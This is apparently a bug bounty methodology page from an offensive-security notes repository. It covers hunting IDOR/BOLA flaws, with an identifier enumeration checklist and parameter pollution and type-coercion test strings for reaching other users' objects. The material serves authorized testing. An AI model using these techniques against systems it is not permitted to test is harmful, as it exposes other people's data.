

repository: 0x3xp10i73r/offsec-vault · page: web-bugbounty/access-control-idor-race/index.html · generator: mkdocs

---
title: "IDOR, BOLA, 403 Bypass & Race Conditions"
description: "Broken object level authorization, status code and path bypasses, HTTP/2 single-packet race conditions, and business logic abuse"
tags:
  - Bug Bounty
  - IDOR
  - BOLA
  - 403 Bypass
  - Race Condition
  - Business Logic
---

# IDOR / BOLA, 403 Bypass & Race Conditions

!!! note "What this page is doing"
    Authorization testing needs a pair: a caller and an object the caller should not control. Compare roles, tenants, methods and state transitions, then use concurrency only when a normal sequential test cannot answer the question.

---

## 1. IDOR / BOLA Hunting Methodology

**IDOR = every identifier your session can *reference*, but should not *control*.** Map every object reference and test it with two accounts.

=== " Enumeration Checklist"

    ```text
    - Numeric IDs : /api/v1/invoice/1001 -> 1002, 1000, 999
    - UUID v1 (timestamp) : uuid v1 leaks MAC + time -> predict/bruteforce nearby UUIDs
    - UUID v4 : not guessable -> but check for UUID LEAKS (shared links, emails,
                               exports, invite links, PDF metadata, CSV exports)
    - Base64 "IDs" : eyJpZCI6MTMzN30= -> decode -> {"id":1337} -> tamper -> re-encode
    - Hashed IDs : MD5(user_id) -> crack, or look for bcrypt/CRC32 weak patterns
    - GraphQL node(id:) : base64("User:1337") -> decode + modify
    - Slug / username : /profile/john -> /profile/admin
    - Nested object IDs : {"org_id":1,"user_id":999} -> change only the SECOND one
    - Bulk endpoints : POST /api/users/bulk ["1","2","3"] -> add victim's ID
    - Exports / reports : /export?user_id=<VICTIM> (often missing the same check)
    - Multi-tenant headers : X-Org-Id: 1, X-Tenant: acme, X-Company-ID
    - HTTP methods : PATCH/PUT/DELETE may bypass the GET-only authz check
    - Response diffing : Compare 200 vs 403 vs 404 bodies for user objects.
    ```

=== " Parameter Pollution & Format Confusion"

First keep the request format valid, then change one representation at a time. The examples below are test cases, not a reason to send every variant to a production endpoint.

```http
GET /api/v1/users/<VICTIM_ID>/profile HTTP/1.1
Host: <DOMAIN>
Authorization: Bearer <TEST_TOKEN>
X-Org-Id: <YOUR_ORG_ID>
```

```text
# Duplicate query parameters: compare each order separately.
?user_id=<YOUR_ID>&user_id=<VICTIM_ID>
?user_id=<VICTIM_ID>&user_id=<YOUR_ID>

# Array/object coercion: send one format per request.
?user_id[]=<VICTIM_ID>
{"user_id": ["<YOUR_ID>", "<VICTIM_ID>"]}
{"user_id": {"id": "<VICTIM_ID>"}}

# Wildcard and empty values: useful only when the endpoint supports filtering.
user_id=*       | user_id=all       | user_id=       | user_id=null       | user_id=0
```

The secure result is consistent authorization for the object, regardless of representation. Record status, body fields, timing and side effects rather than treating a parser error as a bypass.

---
